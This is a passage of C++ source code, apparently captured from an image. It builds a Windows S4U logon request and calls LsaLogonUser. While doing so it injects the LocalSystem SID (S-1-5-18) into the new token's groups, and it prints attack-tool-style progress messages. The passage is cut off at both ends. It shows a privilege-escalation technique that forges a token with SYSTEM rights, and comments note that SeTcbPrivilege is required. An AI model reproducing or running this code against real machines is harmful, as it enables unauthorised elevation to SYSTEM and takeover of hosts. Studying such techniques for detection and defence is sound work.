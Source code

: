 ```c++
		goto Clear;
	}

	wprintf(L"[*] Initialize S4U login.\n");
	// Create MSV1_0_S4U_LOGON structure
	dwMsgS4ULength = sizeof(MSV1_0_S4U_LOGON) + (EXTRA_SID_COUNT + (DWORD)wcslen(szDomain) + (DWORD)wcslen(szUsername)) * sizeof(WCHAR);
	pS4uLogon = (PMSV1_0_S4U_LOGON)LocalAlloc(LPTR, dwMsgS4ULength);
	if (pS4uLogon == NULL)
	{
		wprintf(L"[-] LocalAlloc Error: [%u].", GetLastError());
		goto Clear;
	}

	pS4uLogon->MessageType = MsV1_0S4ULogon;
	pbPosition = (PBYTE)pS4uLogon + sizeof(MSV1_0_S4U_LOGON);
	pbPosition = InitUnicodeString(&pS4uLogon->UserPrincipalName, szUsername, pbPosition);
	pbPosition = InitUnicodeString(&pS4uLogon->DomainName, szDomain, pbPosition);

	strcpy_s(TokenSource.SourceName, TOKEN_SOURCE_LENGTH, "User32");
	AllocateLocallyUniqueId(&TokenSource.SourceIdentifier);

	// Add extra SID to token.
	// If the application needs to connect to a Windows Desktop, Logon SID must be added to the Token.
	wprintf(L"[*] Add extra SID S-1-5-18 to token.\n");
	pGroups = (PTOKEN_GROUPS)LocalAlloc(LPTR, sizeof(TOKEN_GROUPS) + 2 * sizeof(SID_AND_ATTRIBUTES));
	if (pGroups == NULL)
	{
		wprintf(L"[-] LocalAlloc Error: [%u].", GetLastError());
		goto Clear;
	}

	// Add Logon Sid, if present.
	if (pLogonSid)
	{
		pGroups->Groups[pGroups->GroupCount].Attributes = SE_GROUP_ENABLED | SE_GROUP_ENABLED_BY_DEFAULT | SE_GROUP_MANDATORY;
		pGroups->Groups[pGroups->GroupCount].Sid = pLogonSid;
		pGroups->GroupCount++;
	}

	// If an extra SID is specified to command line, add it to the pGroups structure.
	pGroups->Groups[pGroups->GroupCount].Attributes = SE_GROUP_ENABLED | SE_GROUP_ENABLED_BY_DEFAULT | SE_GROUP_MANDATORY;
	pGroups->Groups[pGroups->GroupCount].Sid = pExtraSid;
	pGroups->GroupCount++;

	//pGroups = NULL;

	// Call LSA LsaLogonUser
	// This call required SeTcbPrivilege privilege:
	//    - [1] to get a primary token (vs impersonation token). The privilege MUST be activated.
	//    - [2] to add supplemental SID with LocalGroups parameter.
	//    - [3] to use a username with a domain name different from machine name (or '.').

	status = LsaLogonUser(
		hLSA,
		&OriginName,
		Network,                // Or Batch
		ulAuthenticationPackage,
		pS4uLogon,
```